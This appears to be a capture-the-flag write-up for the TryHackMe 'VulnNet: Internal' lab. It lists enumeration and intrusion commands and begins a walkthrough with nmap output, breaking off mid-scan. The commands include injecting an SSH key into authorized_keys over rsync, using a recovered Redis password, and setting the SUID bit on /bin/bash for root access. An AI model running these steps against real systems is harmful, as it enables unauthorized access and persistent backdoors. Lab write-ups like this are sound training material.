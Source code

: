 # TryHackMe-VulnNet: Internal

**Scope:**

- Remote Synchronization (RSYNC)
- NFS (Network File System)
- REDIS

**Keywords:**

- Server Message Block (SMB) Enumeration
- NFS (Network File System) Enumeration
- showmount
- mount
- Redis Enumeration
- Remote Synchronization (RSYNC) Enumeration
- SSH Connection with Remote Synchronization (RSYNC)
- SSH Port Forwarding
- Account Access with Token

**Main Commands:**

- `nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`
- `crackmapexec smb $target_ip -u 'anonymous' -p '' --shares`
- `smbmap -H $target_ip -u anonymous`
- `smbclient -U '' \\\\vulnnet.thm\\shares`
- `showmount -e $target_ip`
- `mount -t nfs $target_ip:/opt/conf configuration/thm`
- `nmap -sV -T4 -A -O -oN nmap_redis.txt -p 6379 --script="redis-*" -Pn $target_ip`
- `redis-cli -h $target_ip -p 6379 --insecure --no-auth-warning`
- `redis-cli -h $target_ip -a 'B65Hx562F@ggAZ@F' -p 6379 --insecure --no-auth-warning`
- `rsync -av --list-only rsync://vulnnet.thm:873`
- `rsync -av rsync://rsync-connect@vulnnet.thm:873/files ./rsyncthm/thm`
- `rsync -ahv ./id_rsa.pub rsync://rsync-connect@$target_ip:873/files/sys-internal/.ssh/authorized_keys --inplace --no-o --no-g`
- `ssh -i id_rsa.pub sys-internal@$target_ip -p 22`
- `sudo ssh sys-internal@10.10.6.118 -i id_rsa -L 8111:127.0.0.1:8111`

**System Commands:**

- `chmod u+s /bin/bash`

### Laboratory Environment

[VulnNet: Internal](https://tryhackme.com/r/room/vulnnetinternal)

### Penetration Approaches and Commands

> **Network Enumeration Phase**
> 

`nmap -sSVC -T4 -A -O -oN nmap_result.txt -Pn -p- --min-rate 1000 --max-retries 3 $target_ip`

```powershell
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5e:27:8f:48:ae:2f:f8:89:bb:89:13:e3:9a:fd:63:40 (RSA)
|   256 f4:fe:0b:e2:5c:88:b5:63:13:85:50:dd:d5:86:ab:bd (ECDSA)
|_  256 82:ea:48:85:f0:2a:23:7e:0e:a9:d9:14:0a:60:2f:ad (ED25519)
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp6  nfs
|   100021  1,3,4      35727/tcp6  nlockmgr
|   100021  1,3,4      35871/tcp   nlockmgr
```